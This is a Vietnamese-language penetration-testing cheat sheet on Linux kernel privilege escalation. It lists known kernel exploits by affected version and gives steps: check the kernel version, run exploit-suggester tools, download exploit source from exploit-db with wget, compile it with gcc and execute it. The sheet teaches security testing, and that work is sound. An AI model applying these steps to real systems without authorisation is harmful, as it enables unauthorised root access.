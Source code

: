 # Kernel Exploits

## Điểm chính khai thác

* Khai thác các lỗi trong kernel Linux để nâng quyền từ người dùng thường lên root, tận dụng các lỗ hổng như quản lý bộ nhớ sai, race conditions, hoặc cấu hình kernel không an toàn
* Thường thấy ở hệ thống chưa vá hoặc dùng phiên bản kernel cũ, phù hợp cho môi trường kế thừa hoặc thử nghiệm
* Danh sách các lỗ hổng kernel phổ biến và phiên bản bị ảnh hưởng:
  * **Kernel 2.4.x / 2.6.x**: `sock_sendpage`&#x20;
  * **Kernel < 2.6.22**: `ftruncate`
  * **Kernel < 2.6.34**: `cap_sys_admin`
  * **Kernel 2.6.27 < 2.6.36**: `compat`
  * **Kernel < 2.6.36-rc1**: `can bcm`
  * **Kernel <= 2.6.36-rc8**: `rds protocol`
  * **Kernel < 2.6.36.2**: `half nelson`
  * **Kernel <= 2.6.37**: `full nelson`
  * **Kernel 2.6**: `udev`
  * **Kernel 3.13**: `sgid`
  * **Kernel 3.13.0 < 3.19**: `overlayfs`&#x20;
  * **Kernel 3.14.5**: `libfutex`
  * **Kernel 2.6.39 <= 3.2.2**: `mempodipper`
  * **Kernel 2.6.28 / 3.0**: `alpha-omega`
  * **Kernel 2.6.22 < 3.9**: `Dirty Cow`
  * **Kernel 3.7.6**: `msr`
  * **Kernel < 3.8.9**: `perf_swevent_init`
  * **Kernel <= 4.3.3**: `overlayfs`&#x20;
  * **Kernel 4.3.3**: `overlayfs`&#x20;
  * **Kernel 4.4.0**: `af_packet`
  * **Kernel 4.4.x**: `double-fdput`
  * **Kernel 4.4.0-21**: `netfilter`
  * **Kernel 4.4.1**: `refcount`

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Hiển thị phiên bản kernel hiện tại để xác định các lỗ hổng khai thác tiềm năng:

```
uname -r
```

Output mong đợi: Phiên bản kernel, ví dụ: `3.2.0-23-generic`

#### Kiểm tra quyền truy cập hoặc cấu hình

Phân tích kernel và đề xuất các khai thác dựa trên phiên bản, đồng thời xác định lỗ hổng phù hợp:

```
./linux-exploit-suggester
```

Kiểm tra cấu hình hệ thống và kernel để tìm điểm yếu leo thang đặc quyền:

```
./unix_privesc_check
```

#### Phân tích ngữ cảnh thực thi

So sánh phiên bản kernel với danh sách lỗ hổng đã biết (xem Điểm chính khai thác) để đảm bảo chọn khai thác đúng

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Tải mã nguồn khai thác và biên dịch để chuẩn bị tệp thực thi:

```
wget -O exploit.c http://www.exploit-db.com/download/XXXXX
```

Biên dịch chuẩn cho khai thác 32-bit:

```
gcc -m32 -o output32 exploit.c
```

Biên dịch chuẩn cho khai thác 64-bit:

```
gcc -m64 -o output exploit.c
```

#### Áp dụng khai thác

Chạy khai thác Mempodipper để leo thang đặc quyền:

```
./<exploit>
```

{% hint style="info" %}
Kiểm tra tài liệu khai thác để biết tham số cần thiết. Thử trong môi trường ảo để tránh crash.
{% endhint %}
